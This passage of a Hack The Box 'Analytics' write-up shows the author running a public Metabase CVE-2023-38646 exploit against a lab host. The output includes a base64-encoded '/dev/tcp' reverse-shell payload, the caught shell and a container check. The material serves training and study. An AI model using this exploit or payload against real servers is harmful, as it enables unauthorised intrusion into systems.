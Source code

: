 At this point we now know what needs to be done to get RCE on this box. On Github I found a great exploit that we can utilize to get a shell spawned, https://github.com/threatHNTR/CVE-2023-38646/blob/main/exploit.py.

Running this script got the following (*Remember to start a netcat listener*):

```bash
(h0ax㉿kracken)-[~/htb/boxes/easy/analytics]
└─$ python3 shell.py --url http://data.analytical.htb --ip 10.10.16.25 --port 9999 


_____________   ______________      _______________   ________  ________       ________    ______   ________   _____   ________ 
\_   ___ \   \ /   |_   _____/      \_____  \   _  \  \_____  \ \_____  \      \_____  \  /  __  \ /  _____/  /  |  | /  _____/ 
/    \  \/\   Y   / |    __)_  ______/  ____/  /_\  \  /  ____/   _(__  <  _______(__  <  >      </   __  \  /   |  |/   __  \  
\     \____\     /  |        \/_____/       \  \_/   \/       \  /       \/_____/       \/   --   \  |__\  \/    ^   |  |__\  \ 
 \______  / \___/  /_______  /      \_______ \_____  /\_______ \/______  /     /______  /\______  /\_____  /\____   | \_____  / 
        \/                 \/               \/     \/         \/       \/             \/        \/       \/      |__|       \/  
                                                                                                                                
by threatHNTR

Target Host: http://data.analytical.htb
Setup Token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
Version: v0.46.6
Encoded Payload: c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMjUvOTk5OSAwPiYx
Sending POST request to http://data.analytical.htb/api/setup/validate...
Reverse shell request sent successfully.

-----------------------------------------------------------------

(h0ax㉿kracken)-[~/htb/boxes/easy/analytics]
└─$ nc-htb
listening on [any] 9999 ...
connect to [10.10.16.27] from (UNKNOWN) [10.129.43.20] 45314
sh: can't access tty; job control turned off
/ $ id
uid=2000(metabase) gid=2000(metabase) groups=2000(metabase),2000(metabase)
/ $ which python
/ $ which python3
/ $ which script
/ $ egrep 'script' /usr/bin
/ $
```

We are able to get a reverse shell! I also checked to see if I could do an easy shell upgrade with a couple of the techniques that I usually use.

I did my usual stuff and tried to see if there was a user flag that I could read. I instead was able to find that we are actually in a docker container.
